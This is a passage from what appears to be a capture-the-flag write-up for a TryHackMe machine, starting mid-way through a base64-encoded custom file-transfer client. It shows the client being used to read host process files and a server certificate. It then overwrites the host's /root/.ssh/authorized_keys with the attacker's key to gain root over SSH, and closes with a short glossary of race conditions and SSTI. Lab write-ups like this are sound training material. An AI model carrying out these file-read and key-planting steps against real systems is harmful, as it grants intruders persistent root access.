Swgc2VydmVyKToNCiAgICBycnEgPSBieXRlYXJyYXkoKQ0KICAgIHJycS5hcHBlbmQoMCkNCiAgICBycnEuYXBwZW5kKG9wY29kZXNbJ3JlYWQnXSkNCiAgICBycnEgKz0gYnl0ZWFycmF5KGZpbGVuYW1lKQ0KICAgIHJycS5hcHBlbmQoMCkNCiAgICBycnEgKz0gYnl0ZWFycmF5KG1vZGUpDQogICAgcnJxLmFwcGVuZCgwKQ0KICAgIHJycSArPSBieXRlYXJyYXkoc2lnbmF0dXJlKQ0KICAgIHJycS5hcHBlbmQoMCkNCiAgICBzb2NrLnNlbmR0byhycnEsIHNlcnZlcikNCiAgICByZXR1cm4gVHJ1ZQ0KDQpkZWYgc2VuZF93cnEoZmlsZW5hbWUsIG1vZGUsIHNlcnZlcik6DQogICAgd3JxID0gYnl0ZWFycmF5KCkNCiAgICB3cnEuYXBwZW5kKDApDQogICAgd3JxLmFwcGVuZChvcGNvZGVzWyd3cml0ZSddKQ0KICAgIHdycSArPSBieXRlYXJyYXkoZmlsZW5hbWUpDQogICAgd3JxLmFwcGVuZCgwKQ0KICAgIHdycSArPSBieXRlYXJyYXkobW9kZSkNCiAgICB3cnEuYXBwZW5kKDApDQogICAgc29jay5zZW5kdG8od3JxLCBzZXJ2ZXIpDQogICAgcmV0dXJuIFRydWUNCg0KZGVmIHNlbmRfYWNrKGJsb2NrX251bWJlciwgc2VydmVyKToNCiAgICBpZiBsZW4oYmxvY2tfbnVtYmVyKSAhPSAyOg0KICAgICAgICBwcmludCgnRXJyb3I6IEJsb2NrIG51bWJlciBtdXN0IGJlIDIgYnl0ZXMgbG9uZy4nKQ0KICAgICAgICByZXR1cm4gRmFsc2UNCiAgICBhY2sgPSBieXRlYXJyYXkoKQ0KICAgIGFjay5hcHBlbmQoMCkNCiAgICBhY2suYXBwZW5kKG9wY29kZXNbJ2FjayddKQ0KICAgIGFjayArPSBieXRlYXJyYXkoYmxvY2tfbnVtYmVyKQ0KICAgIHNvY2suc2VuZHRvKGFjaywgc2VydmVyKQ0KICAgIHJldHVybiBUcnVlDQoNCmRlZiBzZW5kX2Vycm9yKHNlcnZlciwgY29kZSwgbXNnKToNCiAgICBlcnIgPSBieXRlYXJyYXkoKQ0KICAgIGVyci5hcHBlbmQoMCkNCiAgICBlcnIuYXBwZW5kKG9wY29kZXNbJ2Vycm9yJ10pDQogICAgZXJyLmFwcGVuZCgwKQ0KICAgIGVyci5hcHBlbmQoY29kZSAmIDB4ZmYpDQogICAgcGt0ICs9IGJ5dGVhcnJheShtc2cgKyBiJ1wwJykNCiAgICBzb2NrLnNlbmR0byhwa3QsIHNlcnZlcikNCg0KZGVmIHNlbmRfZGF0YShzZXJ2ZXIsIGJsb2NrX251bSwgYmxvY2spOg0KICAgIGlmIGxlbihibG9ja19udW0pICE9IDI6DQogICAgICAgIHByaW50KCdFcnJvcjogQmxvY2sgbnVtYmVyIG11c3QgYmUgMiBieXRlcyBsb25nLicpDQogICAgICAgIHJldHVybiBGYWxzZQ0KICAgIHBrdCA9IGJ5dGVhcnJheSgpDQogICAgcGt0LmFwcGVuZCgwKQ0KICAgIHBrdC5hcHBlbmQob3Bjb2Rlc1snZGF0YSddKQ0KICAgIHBrdCArPSBieXRlYXJyYXkoYmxvY2tfbnVtKQ0KICAgIHBrdCArPSBieXRlYXJyYXkoYmxvY2spDQogICAgc29jay5zZW5kdG8ocGt0LCBzZXJ2ZXIpDQoNCmRlZiBnZXRfZmlsZShzcmNfZmlsZSwgZGVzdF9maWxlLCBtb2RlKToNCiAgICBoID0gU0hBMjU2Lm5ldyhzcmNfZmlsZSkNCiAgICBzaWduYXR1cmUgPSBiYXNlNjQuYjY0ZW5jb2RlKHBzcy5uZXcocHJpdmtleSkuc2lnbihoKSkNCg0KICAgIHNlbmRfcnJxKHNyY19maWxlLCBtb2RlLCBzaWduYXR1cmUsIHNlcnZlcl9hZGRyZXNzKQ0KICAgIA0KICAgIGZpbGUgPSBvcGVuKGRlc3RfZmlsZSwgIndiIikNCg0KICAgIHdoaWxlIFRydWU6DQogICAgICAgIGRhdGEsIHNlcnZlciA9IHNvY2sucmVjdmZyb20oTUFYX1NJWkUgKiAzKQ0KDQogICAgICAgIGlmIGRhdGFbMV0gPT0gb3Bjb2Rlc1snZXJyb3InXToNCiAgICAgICAgICAgIGVycm9yX2NvZGUgPSBpbnQuZnJvbV9ieXRlcyhkYXRhWzI6NF0sIGJ5dGVvcmRlcj0nYmlnJykNCiAgICAgICAgICAgIHByaW50KGRhdGFbNDpdKQ0KICAgICAgICAgICAgYnJlYWsNCiAgICAgICAgc2VuZF9hY2soZGF0YVsyOjRdLCBzZXJ2ZXIpDQogICAgICAgIGNvbnRlbnQgPSBkYXRhWzQ6XQ0KICAgICAgICBjb250ZW50ID0gYmFzZTY0LmI2NGRlY29kZShjb250ZW50KQ0KICAgICAgICBjb250ZW50ID0gZGVjcnlwdChjb250ZW50LCBwcml2a2V5KQ0KICAgICAgICBmaWxlLndyaXRlKGNvbnRlbnQpDQogICAgICAgIGlmIGxlbihjb250ZW50KSA8IE1BWF9TSVpFOg0KICAgICAgICAgICAgcHJpbnQoImZpbGUgcmVjZWl2ZWQhIikNCiAgICAgICAgICAgIGJyZWFrDQoNCmRlZiBwdXRfZmlsZShzcmNfZmlsZSwgZGVzdF9maWxlLCBtb2RlKToNCiAgICBpZiBub3Qgc2VydmVyX3B1YmtleToNCiAgICAgICAgcHJpbnQoIkVycm9yOiBTZXJ2ZXIgcHVia2V5IG5vdCBjb25maWd1cmVkLiBZb3Ugd29uJ3QgYmUgYWJsZSB0byBQVVQiKQ0KICAgICAgICByZXR1cm4NCg0KICAgIHRyeToNCiAgICAgICAgZmlsZSA9IG9wZW4oc3JjX2ZpbGUsICJyYiIpDQogICAgICAgIGZkYXRhID0gZmlsZS5yZWFkKCkNCiAgICAgICAgdG90YWxfbGVuID0gbGVuKGZkYXRhKQ0KICAgIGV4Y2VwdDoNCiAgICAgICAgcHJpbnQoIkVycm9yOiBGaWxlIGRvZXNuJ3QgZXhpc3QiKQ0KICAgICAgICByZXR1cm4gRmFsc2UNCg0KICAgIHNlbmRfd3JxKGRlc3RfZmlsZSwgbW9kZSwgc2VydmVyX2FkZHJlc3MpDQogICAgZGF0YSwgc2VydmVyID0gc29jay5yZWN2ZnJvbShNQVhfU0laRSAqIDMpDQogICAgDQogICAgaWYgZGF0YSAhPSBiJ1x4MDBceDA0XHgwMFx4MDAnOiAjIGFjayAwDQogICAgICAgIHByaW50KCJFcnJvcjogU2VydmVyIGRpZG4ndCByZXNwb25kIHdpdGggQUNLIHRvIFdSUSIpDQogICAgICAgIHJldHVybiBGYWxzZQ0KDQogICAgYmxvY2tfbnVtID0gMQ0KICAgIHdoaWxlIGxlbihmZGF0YSkgPiAwOg0KICAgICAgICBiX2Jsb2NrX251bSA9IGJsb2NrX251bS50b19ieXRlcygyLCAnYmlnJykNCiAgICAgICAgYmxvY2sgPSBmZGF0YVs6TUFYX1NJWkVdDQogICAgICAgIGJsb2NrID0gZW5jcnlwdChibG9jaywgc2VydmVyX3B1YmtleSkNCiAgICAgICAgYmxvY2sgPSBiYXNlNjQuYjY0ZW5jb2RlKGJsb2NrKQ0KICAgICAgICBmZGF0YSA9IGZkYXRhW01BWF9TSVpFOl0NCiAgICAgICAgc2VuZF9kYXRhKHNlcnZlciwgYl9ibG9ja19udW0sIGJsb2NrKQ0KICAgICAgICBkYXRhLCBzZXJ2ZXIgPSBzb2NrLnJlY3Zmcm9tKE1BWF9TSVpFICogMykNCiAgICAgICAgDQogICAgICAgIGlmIGRhdGEgIT0gYidceDAwXHgwNCcgKyBiX2Jsb2NrX251bToNCiAgICAgICAgICAgIHByaW50KCJFcnJvcjogU2VydmVyIHNlbnQgdW5leHBlY3RlZCByZXNwb25zZSIpDQogICAgICAgICAgICByZXR1cm4gRmFsc2UNCg0KICAgICAgICBibG9ja19udW0gKz0gMQ0KDQogICAgaWYgdG90YWxfbGVuICUgTUFYX1NJWkUgPT0gMDoNCiAgICAgICAgYl9ibG9ja19udW0gPSBibG9ja19udW0udG9fYnl0ZXMoMiwgJ2JpZycpDQogICAgICAgIHNlbmRfZGF0YShzZXJ2ZXIsIGJfYmxvY2tfbnVtLCBiIiIpDQogICAgICAgIGRhdGEsIHNlcnZlciA9IHNvY2sucmVjdmZyb20oTUFYX1NJWkUgKiAzKQ0KICAgICAgICANCiAgICAgICAgaWYgZGF0YSAhPSBiJ1x4MDBceDA0JyArIGJfYmxvY2tfbnVtOg0KICAgICAgICAgICAgcHJpbnQoIkVycm9yOiBTZXJ2ZXIgc2VudCB1bmV4cGVjdGVkIHJlc3BvbnNlIikNCiAgICAgICAgICAgIHJldHVybiBGYWxzZQ0KDQogICAgcHJpbnQoIkZpbGUgc2VudCBzdWNjZXNzZnVsbHkiKQ0KICAgIHJldHVybiBUcnVlDQoNCmRlZiBtYWluKCk6DQogICAgb3AgPSBzeXMuYXJndlszXQ0KICAgIHNyY19maWxlID0gc3lzLmFyZ3ZbNF0uZW5jb2RlKCkNCiAgICBkZXN0X2ZpbGUgPSBzeXMuYXJndls1XS5lbmNvZGUoKQ0KICAgIG1vZGUgPSBiJ25ldGFzY2lpJw0KICAgIGlmIG9wID09ICJnZXQiOg0KICAgICAgICBnZXRfZmlsZShzcmNfZmlsZSwgZGVzdF9maWxlLCBtb2RlKQ0KICAgIGVsaWYgb3AgPT0gInB1dCI6DQogICAgICAgIHB1dF9maWxlKHNyY19maWxlLCBkZXN0X2ZpbGUsIG1vZGUpDQogICAgZWxzZToNCiAgICAgICAgcHJpbnQoIkludmFsaWQgb3BlcmF0aW9uLiIpDQogICAgZXhpdCgwKQ0KDQppZiBfX25hbWVfXyA9PSAnX19tYWluX18nOg0KICAgIG1haW4oKQ==
```

```bash
root@7b05c5df3d55:/app/cron# echo aW1wb3J0IHN5cw0KaW1wb3J0IHNvY2tldA0KZnJvbSBDcnlwdG8uUHVibGljS2V5IGltcG9ydCBSU0ENCmZyb20gQ3J5cHRvLkNpcGhlciBpbXBvcnQgUEtDUzFfT0FFUA0KZnJvbSBDcnlwdG8uU2lnbmF0dXJlIGltcG9ydCBwc3MNCmZyb20gQ3J5cHRvLkhhc2ggaW1wb3J0IFNIQTI1Ng0KaW1wb3J0IGJpbmFzY2lpDQppbXBvcnQgYmFzZTY0DQoNCk1BWF9TSVpFID0gMjAwDQoNCm9wY29kZXMgPSB7DQogICAgJ3JlYWQnOiAxLA0KICAgICd3cml0ZSc6IDIsDQogICAgJ2RhdGEnOiAzLA0KICAgICdhY2snOiA0LA0KICAgICdlcnJvcic6IDUNCn0NCg0KbW9kZV9zdHJpbmdzID0gWyduZXRhc2NpaScsICdvY3RldCcsICdtYWlsJ10NCg0Kd2l0aCBvcGVuKCJjbGllbnQua2V5IiwgInJiIikgYXMgZjoNCiAgICBkYXRhID0gZi5yZWFkKCkNCiAgICBwcml2a2V5ID0gUlNBLmltcG9ydF9rZXkoZGF0YSkNCg0Kd2l0aCBvcGVuKCJjbGllbnQuY3J0IiwgInJiIikgYXMgZjoNCiAgICBkYXRhID0gZi5yZWFkKCkNCiAgICBwdWJrZXkgPSBSU0EuaW1wb3J0X2tleShkYXRhKQ0KDQp0cnk6DQogICAgd2l0aCBvcGVuKCJzZXJ2ZXIuY3J0IiwgInJiIikgYXMgZjoNCiAgICAgICAgZGF0YSA9IGYucmVhZCgpDQogICAgICAgIHNlcnZlcl9wdWJrZXkgPSBSU0EuaW1wb3J0X2tleShkYXRhKQ0KZXhjZXB0Og0KICAgIHNlcnZlcl9wdWJrZXkgPSBGYWxzZQ0KDQpzb2NrID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfREdSQU0pDQpzb2NrLnNldHRpbWVvdXQoMy4wKQ0Kc2VydmVyX2FkZHJlc3MgPSAoc3lzLmFyZ3ZbMV0sIGludChzeXMuYXJndlsyXSkpDQoNCmRlZiBlbmNyeXB0KHMsIHB1YmtleSk6DQogICAgY2lwaGVyID0gUEtDUzFfT0FFUC5uZXcocHVia2V5KQ0KICAgIHJldHVybiBjaXBoZXIuZW5jcnlwdChzKQ0KDQpkZWYgZGVjcnlwdChzLCBwcml2a2V5KToNCiAgICBjaXBoZXIgPSBQS0NTMV9PQUVQLm5ldyhwcml2a2V5KQ0KICAgIHJldHVybiBjaXBoZXIuZGVjcnlwdChzKQ0KDQpkZWYgc2VuZF9ycnEoZmlsZW5hbWUsIG1vZGUsIHNpZ25hdHVyZSwgc2VydmVyKToNCiAgICBycnEgPSBieXRlYXJyYXkoKQ0KICAgIHJycS5hcHBlbmQoMCkNCiAgICBycnEuYXBwZW5kKG9wY29kZXNbJ3JlYWQnXSkNCiAgICBycnEgKz0gYnl0ZWFycmF5KGZpbGVuYW1lKQ0KICAgIHJycS5hcHBlbmQoMCkNCiAgICBycnEgKz0gYnl0ZWFycmF5KG1vZGUpDQogICAgcnJxLmFwcGVuZCgwKQ0KICAgIHJycSArPSBieXRlYXJyYXkoc2lnbmF0dXJlKQ0KICAgIHJycS5hcHBlbmQoMCkNCiAgICBzb2NrLnNlbmR0byhycnEsIHNlcnZlcikNCiAgICByZXR1cm4gVHJ1ZQ0KDQpkZWYgc2VuZF93cnEoZmlsZW5hbWUsIG1vZGUsIHNlcnZlcik6DQogICAgd3JxID0gYnl0ZWFycmF5KCkNCiAgICB3cnEuYXBwZW5kKDApDQogICAgd3JxLmFwcGVuZChvcGNvZGVzWyd3cml0ZSddKQ0KICAgIHdycSArPSBieXRlYXJyYXkoZmlsZW5hbWUpDQogICAgd3JxLmFwcGVuZCgwKQ0KICAgIHdycSArPSBieXRlYXJyYXkobW9kZSkNCiAgICB3cnEuYXBwZW5kKDApDQogICAgc29jay5zZW5kdG8od3JxLCBzZXJ2ZXIpDQogICAgcmV0dXJuIFRydWUNCg0KZGVmIHNlbmRfYWNrKGJsb2NrX251bWJlciwgc2VydmVyKToNCiAgICBpZiBsZW4oYmxvY2tfbnVtYmVyKSAhPSAyOg0KICAgICAgICBwcmludCgnRXJyb3I6IEJsb2NrIG51bWJlciBtdXN0IGJlIDIgYnl0ZXMgbG9uZy4nKQ0KICAgICAgICByZXR1cm4gRmFsc2UNCiAgICBhY2sgPSBieXRlYXJyYXkoKQ0KICAgIGFjay5hcHBlbmQoMCkNCiAgICBhY2suYXBwZW5kKG9wY29kZXNbJ2FjayddKQ0KICAgIGFjayArPSBieXRlYXJyYXkoYmxvY2tfbnVtYmVyKQ0KICAgIHNvY2suc2VuZHRvKGFjaywgc2VydmVyKQ0KICAgIHJldHVybiBUcnVlDQoNCmRlZiBzZW5kX2Vycm9yKHNlcnZlciwgY29kZSwgbXNnKToNCiAgICBlcnIgPSBieXRlYXJyYXkoKQ0KICAgIGVyci5hcHBlbmQoMCkNCiAgICBlcnIuYXBwZW5kKG9wY29kZXNbJ2Vycm9yJ10pDQogICAgZXJyLmFwcGVuZCgwKQ0KICAgIGVyci5hcHBlbmQoY29kZSAmIDB4ZmYpDQogICAgcGt0ICs9IGJ5dGVhcnJheShtc2cgKyBiJ1wwJykNCiAgICBzb2NrLnNlbmR0byhwa3QsIHNlcnZlcikNCg0KZGVmIHNlbmRfZGF0YShzZXJ2ZXIsIGJsb2NrX251bSwgYmxvY2spOg0KICAgIGlmIGxlbihibG9ja19udW0pICE9IDI6DQogICAgICAgIHByaW50KCdFcnJvcjogQmxvY2sgbnVtYmVyIG11c3QgYmUgMiBieXRlcyBsb25nLicpDQogICAgICAgIHJldHVybiBGYWxzZQ0KICAgIHBrdCA9IGJ5dGVhcnJheSgpDQogICAgcGt0LmFwcGVuZCgwKQ0KICAgIHBrdC5hcHBlbmQob3Bjb2Rlc1snZGF0YSddKQ0KICAgIHBrdCArPSBieXRlYXJyYXkoYmxvY2tfbnVtKQ0KICAgIHBrdCArPSBieXRlYXJyYXkoYmxvY2spDQogICAgc29jay5zZW5kdG8ocGt0LCBzZXJ2ZXIpDQoNCmRlZiBnZXRfZmlsZShzcmNfZmlsZSwgZGVzdF9maWxlLCBtb2RlKToNCiAgICBoID0gU0hBMjU2Lm5ldyhzcmNfZmlsZSkNCiAgICBzaWduYXR1cmUgPSBiYXNlNjQuYjY0ZW5jb2RlKHBzcy5uZXcocHJpdmtleSkuc2lnbihoKSkNCg0KICAgIHNlbmRfcnJxKHNyY19maWxlLCBtb2RlLCBzaWduYXR1cmUsIHNlcnZlcl9hZGRyZXNzKQ0KICAgIA0KICAgIGZpbGUgPSBvcGVuKGRlc3RfZmlsZSwgIndiIikNCg0KICAgIHdoaWxlIFRydWU6DQogICAgICAgIGRhdGEsIHNlcnZlciA9IHNvY2sucmVjdmZyb20oTUFYX1NJWkUgKiAzKQ0KDQogICAgICAgIGlmIGRhdGFbMV0gPT0gb3Bjb2Rlc1snZXJyb3InXToNCiAgICAgICAgICAgIGVycm9yX2NvZGUgPSBpbnQuZnJvbV9ieXRlcyhkYXRhWzI6NF0sIGJ5dGVvcmRlcj0nYmlnJykNCiAgICAgICAgICAgIHByaW50KGRhdGFbNDpdKQ0KICAgICAgICAgICAgYnJlYWsNCiAgICAgICAgc2VuZF9hY2soZGF0YVsyOjRdLCBzZXJ2ZXIpDQogICAgICAgIGNvbnRlbnQgPSBkYXRhWzQ6XQ0KICAgICAgICBjb250ZW50ID0gYmFzZTY0LmI2NGRlY29kZShjb250ZW50KQ0KICAgICAgICBjb250ZW50ID0gZGVjcnlwdChjb250ZW50LCBwcml2a2V5KQ0KICAgICAgICBmaWxlLndyaXRlKGNvbnRlbnQpDQogICAgICAgIGlmIGxlbihjb250ZW50KSA8IE1BWF9TSVpFOg0KICAgICAgICAgICAgcHJpbnQoImZpbGUgcmVjZWl2ZWQhIikNCiAgICAgICAgICAgIGJyZWFrDQoNCmRlZiBwdXRfZmlsZShzcmNfZmlsZSwgZGVzdF9maWxlLCBtb2RlKToNCiAgICBpZiBub3Qgc2VydmVyX3B1YmtleToNCiAgICAgICAgcHJpbnQoIkVycm9yOiBTZXJ2ZXIgcHVia2V5IG5vdCBjb25maWd1cmVkLiBZb3Ugd29uJ3QgYmUgYWJsZSB0byBQVVQiKQ0KICAgICAgICByZXR1cm4NCg0KICAgIHRyeToNCiAgICAgICAgZmlsZSA9IG9wZW4oc3JjX2ZpbGUsICJyYiIpDQogICAgICAgIGZkYXRhID0gZmlsZS5yZWFkKCkNCiAgICAgICAgdG90YWxfbGVuID0gbGVuKGZkYXRhKQ0KICAgIGV4Y2VwdDoNCiAgICAgICAgcHJpbnQoIkVycm9yOiBGaWxlIGRvZXNuJ3QgZXhpc3QiKQ0KICAgICAgICByZXR1cm4gRmFsc2UNCg0KICAgIHNlbmRfd3JxKGRlc3RfZmlsZSwgbW9kZSwgc2VydmVyX2FkZHJlc3MpDQogICAgZGF0YSwgc2VydmVyID0gc29jay5yZWN2ZnJvbShNQVhfU0laRSAqIDMpDQogICAgDQogICAgaWYgZGF0YSAhPSBiJ1x4MDBceDA0XHgwMFx4MDAnOiAjIGFjayAwDQogICAgICAgIHByaW50KCJFcnJvcjogU2VydmVyIGRpZG4ndCByZXNwb25kIHdpdGggQUNLIHRvIFdSUSIpDQogICAgICAgIHJldHVybiBGYWxzZQ0KDQogICAgYmxvY2tfbnVtID0gMQ0KICAgIHdoaWxlIGxlbihmZGF0YSkgPiAwOg0KICAgICAgICBiX2Jsb2NrX251bSA9IGJsb2NrX251bS50b19ieXRlcygyLCAnYmlnJykNCiAgICAgICAgYmxvY2sgPSBmZGF0YVs6TUFYX1NJWkVdDQogICAgICAgIGJsb2NrID0gZW5jcnlwdChibG9jaywgc2VydmVyX3B1YmtleSkNCiAgICAgICAgYmxvY2sgPSBiYXNlNjQuYjY0ZW5jb2RlKGJsb2NrKQ0KICAgICAgICBmZGF0YSA9IGZkYXRhW01BWF9TSVpFOl0NCiAgICAgICAgc2VuZF9kYXRhKHNlcnZlciwgYl9ibG9ja19udW0sIGJsb2NrKQ0KICAgICAgICBkYXRhLCBzZXJ2ZXIgPSBzb2NrLnJlY3Zmcm9tKE1BWF9TSVpFICogMykNCiAgICAgICAgDQogICAgICAgIGlmIGRhdGEgIT0gYidceDAwXHgwNCcgKyBiX2Jsb2NrX251bToNCiAgICAgICAgICAgIHByaW50KCJFcnJvcjogU2VydmVyIHNlbnQgdW5leHBlY3RlZCByZXNwb25zZSIpDQogICAgICAgICAgICByZXR1cm4gRmFsc2UNCg0KICAgICAgICBibG9ja19udW0gKz0gMQ0KDQogICAgaWYgdG90YWxfbGVuICUgTUFYX1NJWkUgPT0gMDoNCiAgICAgICAgYl9ibG9ja19udW0gPSBibG9ja19udW0udG9fYnl0ZXMoMiwgJ2JpZycpDQogICAgICAgIHNlbmRfZGF0YShzZXJ2ZXIsIGJfYmxvY2tfbnVtLCBiIiIpDQogICAgICAgIGRhdGEsIHNlcnZlciA9IHNvY2sucmVjdmZyb20oTUFYX1NJWkUgKiAzKQ0KICAgICAgICANCiAgICAgICAgaWYgZGF0YSAhPSBiJ1x4MDBceDA0JyArIGJfYmxvY2tfbnVtOg0KICAgICAgICAgICAgcHJpbnQoIkVycm9yOiBTZXJ2ZXIgc2VudCB1bmV4cGVjdGVkIHJlc3BvbnNlIikNCiAgICAgICAgICAgIHJldHVybiBGYWxzZQ0KDQogICAgcHJpbnQoIkZpbGUgc2VudCBzdWNjZXNzZnVsbHkiKQ0KICAgIHJldHVybiBUcnVlDQoNCmRlZiBtYWluKCk6DQogICAgb3AgPSBzeXMuYXJndlszXQ0KICAgIHNyY19maWxlID0gc3lzLmFyZ3ZbNF0uZW5jb2RlKCkNCiAgICBkZXN0X2ZpbGUgPSBzeXMuYXJndls1XS5lbmNvZGUoKQ0KICAgIG1vZGUgPSBiJ25ldGFzY2lpJw0KICAgIGlmIG9wID09ICJnZXQiOg0KICAgICAgICBnZXRfZmlsZShzcmNfZmlsZSwgZGVzdF9maWxlLCBtb2RlKQ0KICAgIGVsaWYgb3AgPT0gInB1dCI6DQogICAgICAgIHB1dF9maWxlKHNyY19maWxlLCBkZXN0X2ZpbGUsIG1vZGUpDQogICAgZWxzZToNCiAgICAgICAgcHJpbnQoIkludmFsaWQgb3BlcmF0aW9uLiIpDQogICAgZXhpdCgwKQ0KDQppZiBfX25hbWVfXyA9PSAnX19tYWluX18nOg0KICAgIG1haW4oKQ== | base64 -d > newclient.py
root@7b05c5df3d55:/app/cron# python3 newclient.py 172.17.0.1 69 get /proc/self/status status
file received!

root@7b05c5df3d55:/app/cron# cat status
Name:   python3
Umask:  0022
State:  S (sleeping)
Tgid:   1083
Ngid:   0
Pid:    1083
PPid:   1
TracerPid:      0
Uid:    0       0       0       0
Gid:    0       0       0       0
FDSize: 128
Groups:  
NStgid: 1083
NSpid:  1083
NSpgid: 1083
NSsid:  1083
VmPeak:   160124 kB
VmSize:    94696 kB
VmLck:         0 kB
VmPin:         0 kB
VmHWM:     15032 kB
VmRSS:     15032 kB
RssAnon:            7136 kB
RssFile:            7896 kB
RssShmem:              0 kB
VmData:    15360 kB
VmStk:       132 kB
VmExe:      2632 kB
VmLib:      3440 kB
VmPTE:        80 kB
VmSwap:        0 kB
HugetlbPages:          0 kB
CoreDumping:    0
THP_enabled:    1
Threads:        2
SigQ:   0/7664
SigPnd: 0000000000000000
ShdPnd: 0000000000000000
SigBlk: 0000000000000000
SigIgn: 0000000001001000
SigCgt: 0000000180000002
CapInh: 0000000000000000
CapPrm: 000001ffffffffff
CapEff: 000001ffffffffff
CapBnd: 000001ffffffffff
CapAmb: 0000000000000000
NoNewPrivs:     0
Seccomp:        0
Seccomp_filters:        0
Speculation_Store_Bypass:       vulnerable
SpeculationIndirectBranch:      always enabled
Cpus_allowed:   3
Cpus_allowed_list:      0-1
Mems_allowed:   00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000001
Mems_allowed_list:      0
voluntary_ctxt_switches:        137
nonvoluntary_ctxt_switches:     38

root@7b05c5df3d55:/app/cron# python3 newclient.py 172.17.0.1 69 get /proc/self/cmdline cmdline
file received!
root@7b05c5df3d55:/app/cron# cat cmdline
/usr/bin/python3/opt/3M-syncserver/server.py

root@7b05c5df3d55:/app/cron# python3 newclient.py 172.17.0.1 69 get /opt/3M-syncserver/server.crt server.crt
file received!
root@7b05c5df3d55:/app/cron# 
```

`cat /root/.ssh/id_ed25519.pub`

```bash
ssh-ed25519 [REDACTED] - SECRET root@kali
```

```bash
root@7b05c5df3d55:/app/cron# echo ssh-ed25519 [REDACTED] - SECRET root@kali > idpub.pub
root@7b05c5df3d55:/app/cron# python3 newclient.py 172.17.0.1 69 put idpub.pub /root/.ssh/authorized_keys
File sent successfully
root@7b05c5df3d55:/app/cron# 
```

`ssh -i /root/.ssh/id_ed25519 -o MACs=hmac-sha2-256 root@burg3rbytes.thm -p 22`

```bash
root@thm-burg3rbyte:~# whoami
root
root@thm-burg3rbyte:~# id
uid=0(root) gid=0(root) groups=0(root)
root@thm-burg3rbyte:~#
```

# Appendix

## Race Condition Vulnerability

<aside>
💡

A race condition vulnerability occurs in software or systems when the outcome of a process depends on the sequence or timing of uncontrollable events, and the system does not handle those events in a secure or predictable manner. This flaw is particularly prevalent in concurrent or multi-threaded environments, where multiple operations may attempt to access shared resources (like memory, files, or variables) simultaneously. If the system doesn't properly manage the order in which these operations occur, attackers may exploit the vulnerability by timing their actions to manipulate the state of the system. This can lead to unauthorized access, data corruption, or security bypass.

</aside>

## Server-Side Template Injection (SSTI)

<aside>
💡

Server-Side Template Injection (SSTI) is a type of vulnerability that occurs when user input is incorrectly handled or validated in a web application's server-side template engine. This allows an attacker to inject malicious code into templates that are rendered on the server, leading to code execution, data exposure, or full control of the server. Many web frameworks use template engines (like Jinja2 in Python, Twig in PHP, or Freemarker in Java) to dynamically generate web pages. These engines allow developers to embed logic (loops, conditionals) and data variables in templates. SSTI vulnerabilities arise when user input is directly inserted into templates without proper sanitization, allowing attackers to manipulate the template rendering process.

</aside>